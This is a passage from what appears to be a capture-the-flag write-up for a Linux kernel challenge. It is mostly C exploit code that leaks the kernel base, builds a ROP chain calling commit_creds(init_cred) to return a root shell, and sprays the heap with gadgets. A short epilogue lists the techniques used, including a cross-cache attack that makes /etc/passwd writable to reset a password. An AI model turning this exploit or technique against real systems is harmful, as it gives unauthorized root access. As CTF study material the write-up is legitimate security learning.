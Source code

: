 ```c
        // hexdump(res,0x100);
        size_t base = *(size_t *)(res+0xb0)- (0xffffffff8221aac0-0xffffffff81000000);
        size_t gadget = 0xffffffff81541983- NO_ASLR_BASE + base;
        size_t heap = *(size_t *)(res+0x38);
        success(base);
        success(heap);
        
        size_t init_cred = 0xffffffff82a52ae0- NO_ASLR_BASE + base;
        size_t commit_creds = 0xffffffff810c0610- NO_ASLR_BASE + base;
        size_t rdi =  0xffffffff8127c369-NO_ASLR_BASE + base;
        size_t * ptr = (size_t *)(res+0xb0);
        *ptr = (heap&0xfffffffffffff000)+0x800800;
        size_t *rop = (size_t *)(res);
        size_t ct = 0 ; 
        size_t pop = 0xffffffff8154198b- NO_ASLR_BASE + base;
        rop[ct++]  = 0;
        rop[ct++]  = pop;
        ct++;
        rop[ct++]  = rdi;
        rop[ct++]  = init_cred;
        ct++;
        rop[ct++]  = commit_creds;
        rop[ct++]  = 0xffffffff820015d0+103 - NO_ASLR_BASE + base;
        rop[ct++]  = 0 ; 
        rop[ct++]  = 0 ;
        rop[ct++]  = shell;
        rop[ct++]  = user_cs;
        rop[ct++]  = user_rflags;
        rop[ct++]  = user_sp;
        rop[ct++]  = user_ss;
        size_t *ops = calloc(1,0xfd0);
        for(int i = 0 ; i < 0xfd0/8 ; i++)
            ops[i] = gadget;
        msgSpray(0x1fd0-1,0x400,ops);
        for(int i = 0 ; i < 0x40 ; i ++)
            close(fds[i]);
    }
    debug();
}
```

# 0x06 Epilogue

I checked the official write-up and found they didn't set the offset of mmap but used `mremap` to bypass the check in the function `dev_mmap`.


In this challenge, I learned. 

- The method to gain root without control flow hijacking
  - Cross Cache Attack File struct of `/etc/passwd`
  - Make it writeable 
  - Reset Password
- Exploit a Page Struct List OOB 
- Misc about `mmap`/`mremap` and `vm_fault`







[1]: https://n132.github.io/2024/02/29/IPS-Cross-Slab-Attack.html
[2]: https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main/pwn/faulty-kernel
